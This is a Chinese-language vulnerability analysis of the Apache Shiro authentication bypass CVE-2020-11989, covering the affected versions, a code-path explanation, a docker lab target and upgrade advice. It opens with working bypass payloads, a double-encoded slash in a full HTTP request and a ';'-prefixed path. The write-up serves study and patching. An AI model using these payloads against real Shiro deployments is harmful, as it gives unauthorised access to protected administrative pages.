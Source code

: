 ## Apache Shiro身份验证绕过漏洞（CVE-2020-11989） {docsify-ignore}

?> 编辑：[@r4v3zn](https://github.com/0nise)

?> 分析作者：淚笑、Ruilin

?> 漏洞作者：淚笑

### Payload

`/ -> %2f ->%25%32%66`

```
GET /hello/a%25%32%66a HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```

![](./cve-2020-11989/1.png)

`/;test/admin/page`

![](./cve-2020-11989/7.png)

### 影响版本

- Apache Shiro < 1.5.3

### 分析过程

由于Shiro的权限校验是通过判断 URL 匹配来做的，如果能找到 Shiro 获取的 URL 与 Web 框架处理 URL 不一致的情况就能造成权限绕过。Shiro 中对于 URL 的获取及匹配在`org.apache.shiro.web.filter.mgt.PathMatchingFilterChainResolver#getChain`以访问 `/;/test/admin/page` 举例，通过 `getPathWithinApplication` 函数得到的路径为 `/` 

![](./cve-2020-11989/2.png)

跟入该函数的处理逻辑 `org.apache.shiro.web.util.WebUtils#getPathWithinApplication`

![](./cve-2020-11989/3.png)

可以看到 `org.apache.shiro.web.util.WebUtils#getRequestUri` 获取到的是 `/`

 ![](./cve-2020-11989/4.png)

这里分别通过 ` getContextPath() getServletPath() getPathInfo() ` 获取并拼接得到 `/;/test//admin/page` ，传入后 `decodeAndCleanUriString` 变成了 `/` , `org.apache.shiro.web.util.WebUtils#decodeAndCleanUriString`

![](./cve-2020-11989/5.png)

在 `decodeAndCleanUriString` ，会根据 Ascii 为 59 的字符也就是 `;` 进行 URL 的截断，所以最终返回了 `/` 

回到最开始的 `/;/test/admin/page` 请求，该 request 请求会进入 Spring 中， Spring 处理 URL 函数如下`org.springframework.web.util.UrlPathHelper#getPathWithinServletMapping `

![](./cve-2020-11989/6.png)

在 `getPathWithinApplication` 处理下是能正确获取到 `context-path` 与路由，最终经过 `getPathWithinServletMapping` 函数格式化处理后，得到最终路径为 `/admin/page` ，所以我们可以正常访问到该页面

![](./cve-2020-11989/7.png)

因此总结来说就是当 URL 进入到 Tomcat 时， Tomcat 判断 `/;test/admin/page` 为 `test` 应用下的 `/admin/page` 路由，进入到 Shiro 时被 ; 截断被认作为 `/` ,再进入 Spring 时又被正确处理为 `test` 应用下的 `/admin/page` 路由，最后导致 Shiro 的权限绕过。

### 靶场

靶场环境：`docker pull vulfocus/shiro-cve_2020_11989:latest`

### 修复

升级至最新版本：http://shiro.apache.org/download.html

### 分析文章

- [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/) Ruilin
- [Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA) 淚笑